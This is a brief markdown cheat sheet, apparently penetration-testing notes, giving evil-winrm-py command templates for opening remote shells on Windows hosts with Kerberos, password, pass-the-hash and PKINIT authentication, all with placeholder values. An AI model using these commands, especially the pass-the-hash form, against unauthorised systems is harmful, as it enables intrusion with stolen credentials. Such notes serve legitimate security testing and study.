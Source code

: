 # winrm

#winrm
## evil-winrm - kerberos auth
```
evil-winrm-py -i "<dc_fqdn>" -r "<domain>"
```

## evil-winrm - hash auth
```
evil-winrm-py -i "<target_ip>" -u "<user>" -H "<nt_hash>" 
```

## evil-winrm - normal auth
```
evil-winrm-py -i "<target_ip>" -u "<user>" -p "<password>" 
```

## evil-winrm - pkinit auth
```
evil-winrm-py -i "<target_ip>" -u "<user>" -H "<nt_hash>"  --pub-key <public-key> --priv-key <private-key>
```
